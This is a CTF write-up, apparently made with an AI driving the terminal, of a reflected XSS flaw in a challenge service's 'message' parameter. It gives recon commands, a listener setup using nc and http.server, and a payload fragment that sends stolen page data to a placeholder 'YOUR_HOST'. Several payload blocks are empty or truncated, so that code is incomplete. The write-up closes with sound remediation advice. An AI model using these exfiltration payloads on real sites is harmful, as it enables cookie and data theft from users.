

# FAN SIGNAL, Reflected XSS (Confirmed; Flag Needs a Victim Bot), My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | FAN SIGNAL ("send a message to the venue display") |
| **Service** | HTTP, TCP/8220 (EC2) |
| **IP:Port** | `54.72.82.22:8220` |
| **Flag format** | `safctf{...}` |
| **Status** | ⚠️ **Partial**, reflected XSS confirmed and weaponized; the flag requires the CTF's out-of-band victim bot + a callback collector, which I can't drive from the terminal alone. |
| **Date** | 2026-10-03 |
| **Honesty note** | Second-wave sweep; my instruction was *"try solving them."* Claude drove the terminal. I'm logging this one as **not-finished-but-understood**: I know exactly what the bug is and have the payload ready; what's missing is the delivery channel (a bot that visits my link) and a server to catch the stolen data. |

---

## 1. The Short Version

FAN SIGNAL takes a "message for the venue display" and echoes it back:

```bash
curl -s --get http://54.72.82.22:8220/home --data-urlencode 'message=test'
# → Text Received: test
```

It reflects **raw HTML, unescaped**:

```bash
curl -s --get http://54.72.82.22:8220/home --data-urlencode 'message=<b>XSSTEST</b>'
# → Text Received: <b>XSSTEST</b>
```

That's **reflected XSS**, my markup lands in the page verbatim, so `<script>`/`` would execute in a visitor's browser. I verified it's *not* SSTI (`{{7*7}}` stays literal, it's pure reflection, client-side) and that the sink is the `message` GET parameter on `/home`.

The catch: reflected XSS only pays off when **someone else's** browser renders my link. In a CTF that's usually a headless "admin/victim bot" that visits submitted URLs carrying the flag (in a cookie or on an internal page). FAN SIGNAL exposes **no** report/bot/admin endpoint, a full content-discovery scan found only `/home` and `/favicon.ico`. So from this shell I can prove and weaponize the XSS, but I can't make the victim visit, and there's nothing to steal from *my own* session (no flag cookie here).

**Status:** bug confirmed, payload ready, blocked on infrastructure (victim bot + public listener).

---

## 1.1 Attack Chain (what's done vs. what's missing)



---

## 2. Weakness I Found

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | User input reflected into HTML without encoding | **Reflected XSS** (CWE-79) | `GET /home?message=` | Medium-High (depends on victim/cookies) |

---

## 3. Recon

```bash
# the form
curl -s http://54.72.82.22:8220/ | grep -oiE '<form[^>]*>|<input[^>]*>|action="[^"]*"'
# <form action="/home" method="get"><input id="message" name="message" ...>

# reflection, raw
curl -s --get http://54.72.82.22:8220/home --data-urlencode 'message=<b>XSSTEST</b>'
# → Text Received: <b>XSSTEST</b>     (unescaped)

# rule out SSTI (it's client-side XSS, not server-side templating)
curl -s --get http://54.72.82.22:8220/home --data-urlencode 'message={{7*7}}'
# → Text Received: {{7*7}}                        (literal → not SSTI)

# hunt for a victim/report/flag mechanism
ffuf -u http://54.72.82.22:8220/FUZZ -w .../common.txt -mc 200,301,302,403
# only: home, favicon.ico     (no /report, /bot, /admin, /flag; no Set-Cookie)
```

So: genuine reflected XSS, but the "who views it" half of the challenge isn't reachable from here.

---

## 4. The Payload (ready for when there's a listener + bot)

Standard cookie-exfiltration, to be delivered to the victim via whatever submission channel the CTF platform provides:

```html

```

As a URL to hand the bot:

```
http://54.72.82.22:8220/home?message=
```

Then catch it:

```bash
# on a public host you control
python3 -m http.server 80          # or: nc -lvnp 80 ; or webhook.site / interactsh
# the bot's request to /c?<cookie> lands here → read the flag
```

If the flag is on an internal page rather than a cookie, swap the payload to `fetch()` that page and exfil its body:

```html
r.text()).then(t=>new Image().src='//YOUR_HOST/c?'+encodeURIComponent(t))">
```

---

## 5. Why It Works & How I'd Fix It

- **Root cause:** `/home` writes `message` straight into the HTML response with no output encoding, so the browser parses attacker markup as part of the page.
- **Why it's not finished here:** reflected XSS is an attack on *another* user's browser. Without the CTF's victim bot (to visit my link) and a public callback (to receive the exfil), there's no "other user" and nothing of mine worth stealing. This is a *delivery/infrastructure* gap, not a gap in understanding the bug.

Fixes:

1. **Context-aware output encoding**, HTML-escape on output (`&lt; &gt; &quot; &amp;`). Frameworks do this by default; this endpoint clearly concatenates raw.
2. **Content-Security-Policy**, a strict `script-src` (no `unsafe-inline`) blocks injected inline handlers even if reflection slips through.
3. **Cookie hardening**, `HttpOnly` (so `document.cookie` can't read session), `Secure`, `SameSite`.
4. **Input validation** as defense-in-depth (reject angle brackets in a "message" field), but encoding on output is the real control.

---

## 6. Timeline / Status

- Found `/home?message=` reflects raw HTML → reflected XSS confirmed; ruled out SSTI.
- Content-discovery → only `/home`, `/favicon.ico`; no bot/report/flag endpoint; no session cookie.
- Prepared cookie/internal-page exfil payloads.
- **Blocked:** need the CTF platform's victim-bot submission + a public listener to actually land the flag. Handing this off rather than claiming it.

---

## 7. References

- PortSwigger, **Reflected XSS**, **Exploiting XSS to steal cookies**
- OWASP, **XSS Prevention Cheat Sheet**, **Content Security Policy**
- CWE-79 (Improper Neutralization of Input During Web Page Generation)

**Lesson I'm keeping:** confirming XSS is easy; *landing* a reflected-XSS flag needs a victim and a catcher. When neither exists in-scope, the honest move is "bug proven, exploit staged, blocked on delivery", not a fake capture.
